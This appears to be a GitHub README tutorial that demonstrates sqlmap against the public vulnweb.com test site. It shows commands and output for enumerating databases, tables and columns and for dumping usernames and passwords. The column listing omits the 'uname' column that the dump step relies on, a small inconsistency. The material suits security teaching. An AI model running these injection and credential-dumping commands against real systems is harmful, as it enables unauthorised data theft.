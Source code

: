 # 🚀 SQLMap Installation and Usage Guide

## 1. 🔧 Installation of SQLMap

### 📷 Screenshot:
![Installation:](https://github.com/shinchan-op/SQLmap_basic_guide/blob/main/screenshots/installation.png)


Run the following command to install SQLMap on your Linux system:

```bash
sudo apt update && sudo apt install sqlmap -y
```

---

## 2. 🛡️ Database Detection

### 📷 Screenshot:
![Database Detection](https://github.com/shinchan-op/SQLmap_basic_guide/blob/main/screenshots/Database%20detection.png)


To detect databases on a vulnerable website, use the command:

```bash
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs
```

### ⚙️ Explanation:
- `-u "http://testphp.vulnweb.com/listproducts.php?cat=1"`: Specifies the URL to test. The `cat=1` is a potential SQL injection point.
- `--dbs`: Lists all available databases on the target if it is vulnerable to SQL injection.


### 📷 Screenshot:
![Database Detection Output](https://github.com/shinchan-op/SQLmap_basic_guide/blob/main/screenshots/Database%20output.png)

### ✅ Output:
```
Databases:
- acuart
- information_schema
```
---

## 3. 📊 Tables Detection

### 📷 Screenshot:
![Tables Detection](https://github.com/shinchan-op/SQLmap_basic_guide/blob/main/screenshots/Table%20detection.png)

To list tables within the discovered `acuart` database, run:

```bash
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart --tables
```

### ⚙️ Explanation:
- `-D acuart`: Specifies the target database.
- `--tables`: Lists all tables within the `acuart` database.

### 📷 Screenshot:
![Tables Detection Output](https://github.com/shinchan-op/SQLmap_basic_guide/blob/main/screenshots/Table%20output.png)

### ✅ Output:
```
Database: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| products  |
| pictures  |
| users     |
+-----------+
```



---

## 4. 📑 Columns Detection

### 📷 Screenshot:
![Columns Detection](https://github.com/shinchan-op/SQLmap_basic_guide/blob/main/screenshots/Column%20detection.png)

To enumerate columns within the `users` table:

```bash
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users --columns
```

### ⚙️ Explanation:
- `-D acuart`: Specifies the target database.
- `-T users`: Specifies the target table.
- `--columns`: Lists columns in the `users` table.

### 📷 Screenshot:
![Columns Detection](https://github.com/shinchan-op/SQLmap_basic_guide/blob/main/screenshots/Column%20output.png)

### ✅ Output:
```
+---------+--------------+
| Column  | Type         |
+---------+--------------+
| name    | varchar(100) |
| address | mediumtext   |
| email   | varchar(100) |
| pass    | varchar(100) |
+---------+--------------+
```

---

## 5. 🔑 Collecting Credentials

### 📷 Screenshot:
![Credentials Collection](https://github.com/shinchan-op/SQLmap_basic_guide/blob/main/screenshots/Dump%20usernma%20and%20passw.png)

To dump specific columns like `uname` and `pass` from the `users` table:

```bash
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users -C uname,pass --dump
```

### ⚙️ Explanation:
- `-T users`: Target table.
- `-C uname,pass`: Columns to dump.
- `--dump`: Extract and display data.

### 📷 Screenshot:
![Credentials Collection Output](https://github.com/shinchan-op/SQLmap_basic_guide/blob/main/screenshots/Got%20%20credentials.png)

### ✅ Sample Output:
```
+-------+------+
| uname | pass |
+-------+------+
| test  | test |
+-------+------+
```



---

## ⚠️ Disclaimer

> We have used vulnweb.com (a publicly available web application for security testing) as the target for demonstrating SQLMap commands and testing purposes only.


